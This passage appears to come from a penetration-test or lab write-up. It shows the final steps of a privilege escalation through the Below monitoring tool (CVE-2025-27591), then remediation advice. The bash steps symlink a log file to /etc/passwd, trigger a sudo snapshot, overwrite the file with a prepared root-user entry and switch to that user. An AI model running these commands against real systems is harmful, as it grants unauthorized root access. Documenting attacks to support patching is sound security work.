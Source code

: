 3. **Create a symlink to /etc/passwd**:
```bash
ln -s /etc/passwd /var/log/below/error_root.log
```

4. **Trigger the Below binary to create a snapshot**:
```bash
sudo /usr/bin/below snapshot --begin now
```

5. **Overwrite the log file with malicious user data**:
```bash
cp /tmp/spyuser /var/log/below/error_root.log
```

6. **Switch to the new root user**:
```bash
su spy
```

![](Pasted%20image%2020250729215114.png)

### Root Access Achieved

This exploitation technique successfully granted root access to the system, completing the privilege escalation chain.

![](Pasted%20image%2020250729215239.png)

## Post-Exploitation

With root access obtained, full control of the target system was achieved. The attack path demonstrated a complete compromise from initial web application exploitation to full system administrative privileges.

## Remediation Recommendations

1. **Update Roundcube**: Upgrade to the latest patched version to address CVE-2025-49113
2. **Update Below**: Upgrade the Below monitoring system to address CVE-2025-27591
3. **Access Controls**: Implement proper file permissions and access controls
4. **Password Management**: Use strong, unique passwords and consider implementing multi-factor authentication
5. **Security Monitoring**: Implement comprehensive logging and monitoring solutions
6. **Regular Security Assessments**: Conduct periodic vulnerability assessments and penetration tests

## Conclusion

This penetration test successfully demonstrated a complete compromise of the target system through a chain of vulnerabilities. The attack path highlighted the importance of keeping software up-to-date and implementing defense-in-depth security strategies. The combination of application-level vulnerabilities and system-level privilege escalation techniques resulted in full administrative access to the target machine.
